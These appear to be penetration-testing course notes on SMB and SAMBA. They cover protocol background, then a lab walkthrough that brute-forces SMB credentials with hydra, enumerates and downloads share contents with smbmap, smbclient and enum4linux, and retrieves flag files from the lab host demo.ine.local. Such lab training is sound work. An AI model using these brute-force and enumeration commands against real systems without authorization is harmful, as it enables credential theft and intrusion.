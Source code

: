 - SMB (Server Message Block) is a network sharing protocol that is used to facilitate the sharing of files and peripherals, like printers, between computers on a local network (LAN)
- Originally, on older version of Windows, SMB ran on top of NetBIOS using port tcp/139, and was available on both tcp/139 and tcp/445. However on newer version on Windows, SMB is usually found on port tcp/445.
- SAMBA is the Linux implementation of SMB, which allows Windows systems to access Linux shares and devices.

Null Session Misconfiguration
- A security misconfiguration present in SAMBA, using which an attacker can authenticate and enumerate the shares without providing any valid credentials.
- Null Session Misconfiguration is not very widely found on modern systems, so it is being skipped in this section of the course, but can be researched about if and when needed.

SAMBA Exploitation
- SAMBA utilizes username and password authentication in order to obtain access to the server or a network share.
- We can perform a brute-force attack on the SAMBA server in order to obtain legitimate credentials.
- After obtaining legitimate credentials, we can use a utility called SMBMap in order to enumerate SAMBA share drives, list the contents of the share as well as download files and execute remote commands on the target.
- We can also utilize a tool called smbclient, smbclient is a client that is part of the SAMBA software suite. It communicates with a LAN Manager server, offering an interface similar to that of the ftp program. It can be used to download files from the server to the local machine, upload files from the local machine to the server, as well as retrieve directory information from the server.
- Enum4Linux is a tool that can be used to perform extensive enumeration on the SAMBA service, especially with administrative privileges.

Practical Demonstration
- `nmap -sV demo.ine.local`
- `hydra -L admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local smb`
- `smbmap`
- `smbmap -H demo.ine.local -u admin -p password1`
- `smbclient`
- `man smbclient`
- `smbclient -L demo.ine.local -U admin`
- `smbclient -L //demo.ine.local/shawn -U admin`
	- `?`
	- `dir`
	- `exit`
- `smbclient -L //demo.ine.local/nancy -U admin`
	- `dir`
	- `cd dir`
	- `dir`
	- `get flag`
	- `exit`
- `cat flag`
- `smbclient -L //demo.ine.local/admin -U admin`
	- `dir`
	- `cd hidden`
	- `get flag.tar.gz`
	- `exit`
- `ls`
- `mv flag flag1`
- `tar xzf flag.tar.gz`
- `ls`
- `cat flag`
- `enum4linux`
- `enum4linux -a demo.ine.local`
- `enum4linux -a -u admin -p password1 demo.ine.local`
